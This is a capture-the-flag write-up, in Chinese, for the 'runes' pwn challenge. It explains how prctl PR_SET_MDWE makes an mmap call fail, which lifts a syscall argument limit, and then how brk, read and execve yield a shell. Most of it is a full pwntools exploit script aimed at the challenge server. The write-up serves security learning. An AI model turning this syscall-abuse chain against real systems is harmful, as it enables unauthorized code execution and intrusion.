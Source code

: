 # runes

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|Linux |6.6   |

## 解题思路

`chal`实现了一个小游戏，基础等级是`1`，可以执行任意syscall，并且可以控制前三个参数，
但是这3个参数必须小于`等级*100`。小游戏中可以升级，但是不可能超过7，
而指针对应的无符号数非常大，看到如果打败 dark dragon 可以升级到`0x7ffffffffff`，
然后就可以输入指针了。为了打败 dark dragon ，需要把它的血量打到1，
也就是需要让预期的`mmap`调用失败，如果成功，人物血量会直接归零。

寻找符合条件的syscall，先筛掉所有包含指针的syscall，由于程序打开的 `memfd`
被dup到了`1023`，而等级不可能在正常情况下大于10，因此也无法关闭 `memfd` 。
最后选择了`prctl`，在Linux 6.3加入了`PR_SET_MDWE`，开启这个security
bit后可以禁止mmap一段`?wx`的内存，并且不会影响到execve后的新程序。
在因此设置后就能成功升级。`file bzImage`，是6.6的内核，满足条件。

剩下的问题是保护全开，没有泄露任何指针。可以通过`brk`调用申请堆内存，
在上面写数据。由于sh链接到了busybox，因此还需要设置argv。最后
`execve(“/bin/sh", {“sh", NULL}, NULL)` 拿shell。

## EXPLOIT

```python
from pwn import *
from pwnlib.constants.linux.amd64 import __NR_prctl, __NR_alarm, __NR_brk, __NR_read, __NR_execve
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './chal'
SYS = constants

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('121.41.238.106', 42898)

    def init_name(name: str):
        info('Waiting for vm to boot')
        sh.sendlineafter(b'tell me your name', name.encode())
        info(f'Script by {name}')

    def attack_dragon(rax: int, rdi: int=0, rsi: int=0, rdx: int=0, tosend: bytes=None) -> int:
        sh.sendlineafter(b'Your Journey Continues', b'2')
        sh.sendlineafter(b'Invoke the Forbidden Runes', b'3')
        sh.sendlineafter(b'60 3 3 3', f"{int(rax)} {int(rdi)} {int(rsi)} {int(rdx)}".encode())
        if tosend:
            sleep(0.125)
            sh.send(tosend)
        if rax == __NR_execve:
            return
        sh.recvuntil(b'force answers:')
        sysret = int(sh.recvline())
        sh.sendlineafter(b'Impossible', b'1')
        return sysret

    init_name('hkbin & Rocket & haraniN')
    attack_dragon(__NR_prctl, 65, 1) # PR_SET_MDWE; PR_MDWE_REFUSE_EXEC_GAIN
    attack_dragon(__NR_alarm, 0)     # reset alarm timer
    brk = attack_dragon(__NR_brk, 0) # initial brk
    success(GOLD_TEXT(f"Get brk: {brk:#x}, try to extend 0x1000"))
    brk_top = attack_dragon(__NR_brk, brk + 0x1000)
    assert brk_top == brk + 0x1000, "failed to extend brk"
    sent = attack_dragon(__NR_read, 0, brk, 16, b'/bin/sh\0' + p64(brk + 5) + b'\n') # "/bin/sh" "sh" NULL
    assert sent == 16, "failed to send /bin/sh"
    info('Now try to open the shell')
    attack_dragon(__NR_execve, brk, brk + 8, 0) # execve("/bin/sh", {"sh", NULL}, NULL)

    sh.clean()
    sh.interactive()
    sh.close()
```

![flag](assets/runes.png)
